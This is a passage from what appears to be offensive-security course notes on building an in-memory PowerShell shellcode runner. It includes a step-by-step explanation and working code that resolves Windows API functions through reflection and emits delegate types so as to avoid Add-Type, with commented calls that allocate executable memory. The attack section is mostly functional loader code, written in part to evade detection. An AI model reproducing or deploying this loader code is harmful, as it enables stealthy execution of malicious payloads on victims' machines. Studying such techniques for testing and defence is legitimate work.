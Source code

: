

### Reflectively using DelegateType (in Memory)

- [https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/Shellcode%20Process%20Injector/Shellcode%20Process%20Injector.ps1](https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/Shellcode%20Process%20Injector/Shellcode%20Process%20Injector.ps1)

What's going on here:

1. `lookupFunc` 👉🏻 to obtain a reference to the `System.dll` assembly's `GetModuleHandle` and `GetProcAddress` methods using `GetType` and `GetMethod` functions (aka the [Reflection](https://docs.microsoft.com/en-us/dotnet/csharp/programming-guide/concepts/reflection) technique).
2. `getDelegateType` 👉🏻 to define the argument types for the APIs [using a delegate type via Reflection](https://docs.microsoft.com/ru-ru/archive/blogs/joelpob/creating-delegate-types-via-reflection-emit) and return it.
3. `VirtualAlloc` 👉🏻 to allocate writable, readable, and executable (unmanaged) memory space in virtual address space of the calling process.
4. `Copy` 👉🏻 to copy the shellcode bytes into allocated memory location.
5. `CreateThread` 👉🏻 to create a new execution thread in the calling process and execute the shellcode.
6. `WaitForSingleObject` 👉🏻 to delay termination of the PowerShell script until the shell fully executes.

{% code title="ShellcodeRunnerv2.ps1" %}
```powershell
function lookupFunc {
    Param ($moduleName, $funcName)

    $assem = ([AppDomain]::CurrentDomain.GetAssemblies() | ? { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
    $tmp = @()
    $assem.GetMethods() | % {If($_.Name -eq "GetProcAddress") {$tmp += $_}}
    return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null, @($moduleName)), $funcName))
}

function getDelegateType {
    Param (
        [Parameter(Position=0, Mandatory=$True)][Type[]] $argsTypes,
        [Parameter(Position=1)][Type] $retType = [Void]
    )

    # Building a DelegateType (doing it manually to avoid usage of Add-Type)
    ## create a custom assembly and define the module and type inside
    $type = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule', $false).DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])
    ## set up the constructor
    $type.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $argsTypes).SetImplementationFlags('Runtime, Managed')
    ## sets up the invoke method
    $type.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $retType, $argsTypes).SetImplementationFlags('Runtime, Managed')
    ## invoke the constructor and return the delegation type
    return $type.CreateType()
}

# $VirtualAllocAddr = lookupFunc kernel32.dll VirtualAlloc
# $VirtualAllocDelegateType = getDelegateType @([IntPtr], [UInt32], [UInt32], [UInt32])([IntPtr])
# $VirtualAlloc =[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($VirtualAllocAddr, $VirtualAllocDelegateType)
# $VirtualAlloc.Invoke([IntPtr]::Zero, 0x1000, 0x3000, 0x40)

```